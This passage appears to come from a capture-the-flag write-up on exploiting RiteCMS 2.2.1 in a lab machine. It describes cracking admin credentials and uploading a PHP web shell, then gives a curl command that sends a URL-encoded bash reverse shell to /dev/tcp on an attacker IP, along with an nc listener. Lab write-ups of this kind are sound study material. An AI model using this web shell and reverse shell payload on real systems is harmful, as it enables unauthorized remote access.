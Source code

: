 ## Exploitation
Reverse shell with `RiteCMS 2.2.1`, mount an `NSF` home directory, reverse engineer a Linux binary and use risky capabilities.

Given I can access to `deliver.undiscovered.thm`, and it runs `RiteCMS 2.2.1`, and I can download the database of the  `userdata` file, and I can crack the hash to get the admin credentials, and I upload the `ws.php` file which works as a web shell. then I can try to perform a reverse shell.

When I use the `nc` command:
```shell
$ nc 1234
```
And I `curl` the `/files/ws.php` with the payload:
```shell
$ curl "deliver.undiscovered.thm/files/ws.php?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.2.6/1234%200>%261'"
```
Then I get a reverse shell of the user `www-data`:

![evidence](./static/10-ritecms-reverseshell.png)

When I explore the server, then I find out why the `ffuf` command found so many virtual hosts., and I confirm that only `deliver` has useful data:
